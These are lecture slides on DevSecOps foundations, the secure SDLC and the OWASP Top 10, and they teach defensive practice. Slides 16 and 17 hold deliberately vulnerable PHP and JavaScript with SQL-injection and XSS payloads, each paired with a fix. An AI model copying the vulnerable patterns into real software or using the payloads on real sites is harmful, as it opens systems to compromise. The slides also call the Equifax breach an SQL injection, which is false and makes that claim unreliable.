# 📌Lecture 1 - DevSecOps Foundations & Secure SDLC


## 📍 Slide 1 – 🌍 What is DevSecOps?

* 🌐 **DevOps** = *Development + Operations* → a culture and practice that brings together software developers and IT operations to deliver applications faster.
* 🔐 **DevSecOps** = *Development + Security + Operations* → extending DevOps by adding **security as a core practice** at every stage of software delivery.
* 🧑‍🤝‍🧑 **Key principle**: *“Security is everyone’s responsibility”* — not just for a separate security team.
* ⚡ **Why it matters**: modern systems are complex and fast-changing; security can no longer be a late “add-on”.
* 🎯 **Ultimate goal**: deliver software that is both **fast** and **secure**, continuously and reliably.
* 📖 **First mentioned**: around **2012–2015** in industry discussions, popularized by organizations like **Gartner and NIST**.



---

## 📍 Slide 2 – 🔄 Why Security in DevOps Matters

* ⚠️ **Traditional DevOps problem**: speed of delivery often came at the cost of **weak security**.
* 💥 **Real-world incidents**:

  * 🏢 **Equifax breach (2017)** → missed patch → exposed **147M records**.
  * ☁️ **Capital One breach (2019)** → misconfigured AWS firewall → attacker accessed **100M credit card applications**.
  * 🛰️ **SolarWinds attack (2020)** → supply chain compromise → impacted **US government agencies**.
* 💰 **Financial cost**: IBM’s 2023 report showed an average **\$4.45M per data breach** worldwide.
* 🕒 **Time cost**: average breach discovery time = **277 days** (IBM 2023).
* 🔑 **Conclusion**: speed without security = **higher risks, higher costs**.



---

## 📍 Slide 3 – 🧑‍🤝‍🧑 DevOps Culture & Security Culture

* 🤝 **DevOps culture**: developers and operations teams collaborate, share responsibility, and aim for continuous delivery.
* 🛡️ **Security culture**: security practices are integrated, and **every role cares about security outcomes**.
* 📌 **Shared responsibility**: no “throwing security over the wall” — dev, ops, and sec **work together**.
* 🔄 **Continuous feedback loops**: rapid detection and fixing of vulnerabilities.
* 🛠️ **Automation tools**: CI/CD (Continuous Integration/Continuous Delivery), automated tests, security scans, real-time monitoring.
* 📖 **Cultural models**: inspired by **“The Phoenix Project” (2013)** and **“The DevOps Handbook” (2016)** — now extended with DevSecOps.



---

## 📍 Slide 4 – 🕰️ The “Shift-Left” Philosophy

* 📖 **Shift-Left** = moving quality and security checks **earlier (“left”) in the SDLC** timeline.
* ⏳ **Traditional model**: security testing only at the end → too late, very expensive to fix issues.
* ✅ **Shift-Left model**: detect problems **during requirements, design, and coding**.
* 💰 **Cost efficiency**: fixing a bug in production can cost **30x more** than fixing it in design (NIST study).
* 📊 **Adoption**: widespread since 2015, now standard in Agile and DevOps pipelines.
* 🧩 **Examples**: threat modeling during design, secure coding guidelines in development, automated SAST (Static Application Security Testing) in CI pipelines.



---

## 📍 Slide 5 – 📊 Industry Reports & Trends

* 📖 **Verizon DBIR (Data Breach Investigations Report) 2024**:

  * ⚠️ 74% of breaches involve **human mistakes** (misconfigurations, stolen credentials).
  * 🔥 Ransomware remains one of the **top three attack methods**.
* 📖 **OWASP (Open Worldwide Application Security Project) DevSecOps Survey 2023**:

  * 📈 68% of organizations already use **DevSecOps practices**.
  * 🚧 Barriers: lack of **security skills** and **cultural resistance**.
* 🤖 **Emerging trend**: security automation and **AI-based security tools** (e.g., AI-powered code review, vulnerability detection).
* 📅 **Prediction**: by 2026, 50% of new enterprise applications will use **AI-assisted security scanning** (Gartner).



---

## 📍 Slide 6 – 🏗️ What is the Secure Software Development Life Cycle (Secure SDLC)?

* 📖 **SDLC = Software Development Life Cycle** → the process of building software from planning to maintenance.
* 🔐 **Secure SDLC** = integrate **security checks and practices** into every stage of SDLC.
* 🎯 **Goal**: build software that is **secure by design**, not “patched after release”.
* 🧩 **Phases with security**:

  * 📋 Requirements → add **security requirements**.
  * 🖌️ Design → apply **threat modeling**.
  * 💻 Implementation → follow **secure coding standards**.
  * 🧪 Testing → run **security testing tools**.
  * 🚀 Deployment → use **secure configurations**.
  * 🔄 Maintenance → perform **patch management and monitoring**.



---

## 📍 Slide 7 – 📜 History of SDLC Models

* 📅 **1960s: Waterfall model** → linear, one phase at a time, inflexible, common in early software projects.
* 📅 **1990s: Agile model** → iterative, faster cycles, team collaboration, popularized with the Agile Manifesto (2001).
* 📅 **2010s: DevOps** → combined development and operations, focus on **automation, CI/CD pipelines, faster releases**.
* 📅 **2015+: DevSecOps** → added **security** to DevOps, making security part of the development process.
* 🔮 **Today**: shift towards **continuous, automated, AI-assisted secure delivery**.



---

## 📍 Slide 8 – 🧩 Secure SDLC Phases (Overview)

* 📋 **Requirements Phase** → include **security requirements** (e.g., compliance with GDPR, encryption needs).
* 🖌️ **Design Phase** → perform **threat modeling** (identify possible attacks using frameworks like STRIDE).
* 💻 **Implementation Phase** → apply **secure coding practices** (avoid SQL injection, hardcoded secrets).
* 🧪 **Testing Phase** → use **SAST (Static Application Security Testing)**, **DAST (Dynamic Application Security Testing)**, and **SCA (Software Composition Analysis)**.
* 🚀 **Deployment Phase** → ensure **secure configurations** (firewalls, least privilege, secrets management).
* 🔄 **Maintenance Phase** → **monitoring, patching, vulnerability management**.



---

## 📍 Slide 9 – ⚖️ Traditional SDLC vs Secure SDLC

* 🏗️ **Traditional SDLC**:

  * 📋 Requirements → functionality only, no security.
  * 🖌️ Design → focus on features, not threats.
  * 🧪 Testing → security often checked only at the end.
  * ❌ Security = *afterthought*, reactive.
* 🛡️ **Secure SDLC**:

  * 📋 Requirements → include security requirements.
  * 🖌️ Design → apply threat modeling.
  * 💻 Implementation → enforce secure coding standards.
  * 🧪 Testing → integrate security testing into CI/CD pipeline.
  * ✅ Security = *built-in*, proactive.



---

## 📍 Slide 10 – 🧮 Key Standards & Frameworks

* 🛡️ **NIST SSDF (Secure Software Development Framework, 2022)** → official US guidance for building secure software.
* 📜 **ISO/IEC 27034** → international standard for secure application development.
* 📈 **BSIMM (Building Security In Maturity Model)** → measures how mature a company’s software security practices are.
* 🔑 **OWASP SAMM (Software Assurance Maturity Model)** → open framework for assessing and improving software security.
* 📌 **Use cases**: companies use these frameworks to evaluate their DevSecOps maturity and to comply with regulations (e.g., US government contracts now require NIST SSDF alignment).



---

## 📍 Slide 11 – 🏆 Introduction to OWASP

* 🌍 **OWASP = Open Worldwide Application Security Project**.
* 📅 **Founded in 2001** → global nonprofit organization.
* 🎯 Mission: improve software security through **open-source projects, tools, and guidelines**.
* 📚 Key deliverables: **OWASP Top 10**, **ASVS (Application Security Verification Standard)**, **Cheat Sheets**, **SAMM model**.
* 👥 Community-driven: >30,000 volunteers worldwide, chapters in 100+ countries.
* 🛠️ Example projects: **OWASP ZAP (Zed Attack Proxy)**, **Dependency-Check**, **Threat Dragon**.



---

## 📍 Slide 12 – 📈 Evolution of OWASP Top 10

* 📖 **First version (2004)** → awareness list of top web app risks.
* 📅 **2010 update** → included Cross-Site Request Forgery (CSRF).
* 📅 **2017 update** → added XML External Entities (XXE) and insecure deserialization.
* 📅 **2021 update** (latest):

  * 🔥 New categories like “Insecure Design” and “Software & Data Integrity Failures”.
  * Expanded focus beyond just injection attacks.
* 🧭 **Goal**: raise awareness of most critical application security risks every few years.



---

## 📍 Slide 13 – 🔥 OWASP Top 10 (2021) Categories

* 1️⃣ **Broken Access Control** → improper user permissions.
* 2️⃣ **Cryptographic Failures** → weak/missing encryption.
* 3️⃣ **Injection** → SQL injection, command injection.
* 4️⃣ **Insecure Design** → flawed architecture from the start.
* 5️⃣ **Security Misconfiguration** → default passwords, open cloud storage.
* 6️⃣ **Vulnerable & Outdated Components** → unpatched libraries.
* 7️⃣ **Identification & Authentication Failures** → weak login, session problems.
* 8️⃣ **Software & Data Integrity Failures** → supply chain risks.
* 9️⃣ **Security Logging & Monitoring Failures** → missing logs, weak detection.
* 🔟 **Server-Side Request Forgery (SSRF)** → attacker makes server request unintended resources.



---

## 📍 Slide 14 – ⚡ Real Incidents Mapped to OWASP Top 10

* 🏢 **Equifax breach (2017)** → **Injection flaw** (Apache Struts vulnerability).
* ☁️ **Capital One breach (2019)** → **Misconfiguration** in cloud firewall.
* 🐍 **Log4Shell (2021)** → **Vulnerable Component** (Log4j library).
* 📡 **SolarWinds (2020)** → **Software & Data Integrity Failure** (supply chain attack).
* 💳 **Heartbleed (2014)** → **Cryptographic Failure** (OpenSSL bug).
* 🔑 **Lesson**: OWASP Top 10 categories are not “theoretical” — they **map to real-world breaches**.



---

## 📍 Slide 15 – 🌐 What Are Vulnerabilities?

* 🌐 **Definition**: A **vulnerability** is a weakness in software, system, or process that can be exploited by an attacker.
* 📜 **CVE (Common Vulnerabilities and Exposures)** → a public database of known vulnerabilities [cve.mitre.org](https://cve.mitre.org/).
* 🧩 **CWE (Common Weakness Enumeration)** → a catalog of common software weaknesses [cwe.mitre.org](https://cwe.mitre.org/).
* 🔎 **Exploit** = a method or code used to take advantage of a vulnerability.
* 📈 **Trend**: >25,000 new CVEs published in **2023** (all-time high).
* 🛡️ Goal in DevSecOps: detect vulnerabilities **early** and prevent them from reaching production.



---

### 💻 Example: CVE Record

```text
CVE-2021-44228: "Log4Shell"
- A remote code execution (RCE) vulnerability
- Affected Apache Log4j library
- Exploited via crafted log messages
- Impacted millions of apps globally in Dec 2021
```

---

## 📍 Slide 16 – 💉 SQL Injection (SQLi)

* 💉 **SQL Injection** = attacker injects malicious **SQL (Structured Query Language)** commands into application queries.
* 📅 **Discovered in late 1990s**, still in **OWASP Top 10** today.
* 🔑 **Why it happens**: application fails to properly validate or sanitize user input.
* ⚡ **Impact**: data theft, data modification, remote code execution in extreme cases.
* 📌 **Famous case**: 2017 Equifax breach → SQLi vulnerability in Apache Struts led to **147M records leaked**.
* 🔗 Reference: [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection).



---

### 💻 Example: Vulnerable Code (PHP)

```php
<?php
// ❌ Vulnerable: directly inserting user input into query
$username = $_GET['user']; 
$password = $_GET['pass']; 
$query = "SELECT * FROM users WHERE user = '$username' AND pass = '$password'"; 
$result = mysqli_query($conn, $query);

// An attacker could input: 
// user=admin&pass=' OR '1'='1
// Query becomes:
// SELECT * FROM users WHERE user = 'admin' AND pass = '' OR '1'='1';
// This always returns TRUE → attacker logs in without password
?>
```

---

### 💻 Example: Secure Fix (Prepared Statement)

```php
<?php
// ✅ Secure: using parameterized queries (prepared statements)
$stmt = $conn->prepare("SELECT * FROM users WHERE user=? AND pass=?");
$stmt->bind_param("ss", $username, $password); 
$stmt->execute(); 
$result = $stmt->get_result();

// Now even if attacker tries ' OR '1'='1, it is treated as a string, not SQL
?>
```

---

## 📍 Slide 17 – 📜 Cross-Site Scripting (XSS)

* 📜 **XSS = Cross-Site Scripting** → attacker injects malicious scripts into websites viewed by other users.
* 🧩 Types of XSS:

  * 🔁 **Reflected XSS** → script comes from the request (URL parameter).
  * 💾 **Stored XSS** → script saved in database (e.g., forum comment).
  * 🖥️ **DOM-based XSS** → executed in the browser via JavaScript DOM manipulation.
* ⚡ **Impact**: session hijacking, cookie theft, defacement, malware injection.
* 📅 **First widely documented**: early 2000s; still among most common web vulns.
* 🔗 Reference: [OWASP XSS](https://owasp.org/www-community/attacks/xss/).



---

### 💻 Example: Vulnerable Code (JavaScript)

```html
<!-- ❌ Vulnerable: directly reflecting user input -->
<form action="/search">
  <input type="text" name="q">
</form>
<script>
  // takes query parameter from URL and shows it
  document.write("You searched for: " + location.search.substring(3));
</script>

<!-- Attacker enters: <script>alert('XSS')</script>
Browser executes malicious script → popup, or worse (cookie theft) -->
```

---

### 💻 Example: Secure Fix

```html
<!-- ✅ Secure: properly escape and sanitize input -->
<script>
  function escapeHTML(str) {
    return str.replace(/</g, "&lt;").replace(/>/g, "&gt;");
  }
  const query = escapeHTML(location.search.substring(3));
  document.write("You searched for: " + query);
</script>

<!-- Now <script> is displayed as text, not executed -->
```

---

## 📍 Slide 18 – 🔑 Authentication & Session Vulnerabilities

* 🔑 **Authentication** = verifying identity of a user (e.g., username + password).
* 🧾 **Common problems**:

  * 📋 Weak passwords (e.g., “123456”, “password”).
  * 🔁 Credential reuse (same password across sites).
  * 🕒 Missing MFA (Multi-Factor Authentication).
* 📡 **Session vulnerabilities**:

  * 🏷️ **Session fixation** → attacker sets victim’s session ID.
  * 📦 **Session hijacking** → attacker steals session cookie.
  * 🧩 Poor JWT (JSON Web Token) handling → weak signing or no expiration.
* 🔗 Reference: [OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html).

